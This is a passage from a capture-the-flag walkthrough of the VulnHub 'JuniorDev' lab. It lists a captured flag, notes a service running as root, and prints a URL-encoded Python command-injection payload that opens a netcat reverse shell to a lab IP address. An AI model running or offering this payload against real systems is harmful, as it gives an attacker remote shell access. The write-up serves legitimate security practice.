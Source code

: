 ![Untitled](/Vulnhub-Files/img/JuniorDev/Untitled%207.png)

```bash
FLAG71 : d3c7c338d5d8370e5c61fd68e101237a4d438408
```
{: .nolineno}
{: .nolineno}

while enumerating I also noticed that this service is running as root →

![Untitled](/Vulnhub-Files/img/JuniorDev/Untitled%208.png)

Now lets exploit this service through including python command injection exploit on the web server →

```bash
__import__("os").system('rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.66.67.202+2222+>/tmp/f')
```
{: .nolineno}
{: .nolineno}
